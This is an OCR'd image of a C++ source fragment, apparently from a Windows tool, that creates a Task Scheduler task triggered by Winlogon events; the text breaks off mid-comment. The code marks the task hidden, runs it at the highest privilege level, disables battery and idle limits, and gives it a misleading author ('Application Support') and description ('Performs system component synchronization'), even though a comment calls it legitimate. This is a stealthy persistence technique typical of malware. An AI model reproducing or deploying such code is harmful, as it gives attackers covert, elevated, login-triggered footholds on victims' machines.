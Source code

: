 ```cpp
    // Create a legitimate event-triggered task (responds to system events)
    bool CreateEventTriggeredTask(const std::wstring& taskName, const std::wstring& execPath, 
                                const std::wstring& eventQuery) {
        if (!initialized && !Initialize()) return false;
        
        // Create task definition
        ITaskDefinition* pTask = NULL;
        HRESULT hr = pService->NewTask(0, &pTask);
        if (FAILED(hr)) return false;
        
        // Set registration info
        IRegistrationInfo* pRegInfo = NULL;
        hr = pTask->get_RegistrationInfo(&pRegInfo);
        if (SUCCEEDED(hr)) {
            pRegInfo->put_Author(_bstr_t(L"Application Support"));
            pRegInfo->put_Description(_bstr_t(L"Performs system component synchronization"));
            pRegInfo->Release();
        }
        
        // Set principal info
        IPrincipal* pPrincipal = NULL;
        hr = pTask->get_Principal(&pPrincipal);
        if (SUCCEEDED(hr)) {
            pPrincipal->put_LogonType(TASK_LOGON_INTERACTIVE_TOKEN);
            pPrincipal->put_RunLevel(TASK_RUNLEVEL_HIGHEST);
            pPrincipal->Release();
        }
        
        // Set task settings
        ITaskSettings* pSettings = NULL;
        hr = pTask->get_Settings(&pSettings);
        if (SUCCEEDED(hr)) {
            pSettings->put_Hidden(VARIANT_TRUE);
            pSettings->put_DisallowStartIfOnBatteries(VARIANT_FALSE);
            pSettings->put_StopIfGoingOnBatteries(VARIANT_FALSE);
            pSettings->put_RunOnlyIfIdle(VARIANT_FALSE);
            pSettings->Release();
        }
        
        // Create event trigger
        ITriggerCollection* pTriggerCollection = NULL;
        hr = pTask->get_Triggers(&pTriggerCollection);
        if (SUCCEEDED(hr)) {
            ITrigger* pTrigger = NULL;
            hr = pTriggerCollection->Create(TASK_TRIGGER_EVENT, &pTrigger);
            
            if (SUCCEEDED(hr)) {
                IEventTrigger* pEventTrigger = NULL;
                hr = pTrigger->QueryInterface(IID_IEventTrigger, (void**)&pEventTrigger);
                
                if (SUCCEEDED(hr)) {
                    // Configure event subscription
                    pEventTrigger->put_Id(_bstr_t(L"EventBasedTrigger"));
                    pEventTrigger->put_Subscription(_bstr_t(eventQuery.c_str()));
                    
                    // Example event query:
                    // <QueryList>
                    //   <Query Id="0" Path="Microsoft-Windows-Winlogon/Operational">
                    //     <Select Path="Microsoft-Windows-Winlogon/Operational">
